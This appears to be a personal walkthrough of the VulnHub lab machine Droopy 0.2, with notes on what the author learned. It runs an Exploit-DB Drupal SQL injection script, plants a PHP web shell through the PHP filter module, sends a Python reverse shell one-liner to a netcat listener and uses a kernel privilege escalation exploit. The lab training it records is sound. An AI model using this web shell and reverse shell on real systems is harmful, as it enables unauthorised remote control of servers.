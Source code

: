 +++
title = "Droopy 0.2"
date = 2019-02-07
[taxonomies]
tags = ["vulnhub"]
+++

1. Initiated nmap scans using my own custom scripts.

2. Port 80 is opened and running Drupal 7. `robots.txt` shows a lot of disallowed listings.

	* After enumerating the disallowed list, I found out drupal 7.30 is installed.

	* [https://www.exploit-db.com/exploits/34992](https://www.exploit-db.com/exploits/34992) - Drupal SQL injection to create administrator credentials

	```bash
	cp /usr/share/exploitdb/exploits/php/webapps/34992.py ./
	```

	```bash
	python 34992.py http://droopy -u admin1 -p admin1
	```

	* It found the site was vulnerable and created account. Using account as "admin" doesn't work as it says you need to active or it's a blocked account.

3. Continuing enumeration process:
	
	```bash
	nikto -h droopy
	```

	* [http://droopy/info.php](http://droopy/info.php)

	* Ubuntu Linux 3.13.0-43-generic
	
	* Apache 2.4.7
	
	* PHP/5.5.9-1ubuntu4.5

	* `nikto` also shows that the page can be exploited by Remote File Inclusion (RFI).

4. **Rabbit hole** - There was a lot of research of UDP and TCP ports and testing out possible exploits. This is a bad rabbit hole to fall into.

5. There was a lot of trial and error at this point for me. I was digging through on how I would execute php files but had no luck with the default uploading forms. When I tried uploading a php file, it would auto rename to txt format. I had tried Googling how you would bypass this mechanism but it's a setting that you will need to edit through CLI. After spending a couple of hours, I took a peak at a walkthrough on how you would perform RFI.

6. In the control panel, go to `Modules` and enable `PHP filter`.

7. Once enabled, configure modify two PHP filter permissions to allow PHP code text format option and for settings.

8. Create a new "Block" page and add the RFI code in the body:

	```html
	<pre><?php system($_GET['c']) ?></pre>
	```

9. Setup netcat:

	```bash
	nc -nvlp 1234
	```

10. Execute python reverse shell one liner:
	
	```bash
	droopy/index.php?c=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.242.2.3",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	```

11. Initiated enumeration process for privesc.

	* `linuxprivchecker.py` showed interesting mail data at `/var/mail/www-data` hinting something about `rockyou.txt`.

12. Performed exploit for linux kernel 3.13.0 - [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)

13. ROOTED!

### Today I learned

* In step 7, notice that the variable "c" is important. When you execute the RFI URL, you need to have "c" as the variable after the php file so for example `http://droopy/index.php?c=pwd`

### Improvement for next time

* I did have a hunch that if it didn't run my php code natively after creating a page, I should have looked into how you would enable the PHP feature. It was infront of my face but didn't carry though with the task.

* I tried even using the PDF header trick to pass on a php file but that was useless.

* What I really got sidetracked was not fully understanding how RFI works. The part where you have to craft a URL to trigger the RFI.